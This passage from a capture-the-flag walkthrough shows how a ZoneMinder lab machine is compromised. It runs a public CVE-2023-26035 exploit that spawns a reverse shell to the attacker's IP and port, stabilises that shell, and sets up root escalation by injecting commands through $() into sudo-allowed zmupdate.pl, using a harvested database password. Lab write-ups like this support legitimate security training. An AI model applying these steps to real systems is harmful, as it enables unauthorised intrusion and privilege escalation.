 ![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/58376b83-d1d6-4939-b858-a4f2fccab0fd)

So it is a free open-source software used for monitoring

Default creds `admin/admin` didn't work hehe. Lets look for public exploits

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/066069e7-fadd-4206-9919-3572959a7b39)

You can download the exploit we'll be using from [here](https://github.com/rvizx/CVE-2023-26035/blob/main/exploit.py)

To run the exploit

command:`python bankai.py -t http://127.0.0.1:1234/ -ip 10.10.14.165 -p 1337`

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f3483df7-74e8-4397-a7f4-cb80dfcc3159)

Cool. we spawned a reverse shell hehe

To stabilize the shell, use the commands

```
python3 -c “import pty;pty.spawn(‘/bin/bash’)”
ctrl + z (to background)
stty raw -echo && fg
export TERM=xterm
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cc303cc2-2e0f-46b8-9cd8-190d8c2753ef)

Now we can try to get root from here

Running  the command `sudo -l`

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ca0094bd-345a-474c-8735-097a6a26dcae)

Now, all scripts related to application software can be run as sudo. So we need to find the particular script we can use

command:`find . -type f -name 'zm[a-zA-Z]*.pl'`

 This command searches the current directory and its subdirectories for files whose names start with "zm", followed by any sequence of alphabetical characters, and end with the ".pl" extension.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a4554e86-1448-4123-8d37-4ab5161d97a1)

After a little research I found out that `zmupdate.pl` has a vulnerability

Lets use the help menu

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6bba096f-2c9f-4d92-b332-dcc970e78264)

So you'll need to specify a version. username and then a password. If you recall from our linpeas output we found the password of a `zm` database to be `ZoneMinderPassword2023`

The key aspect of this vulnerability is you can insert any command within the `$()` variable and the binary will execute it.
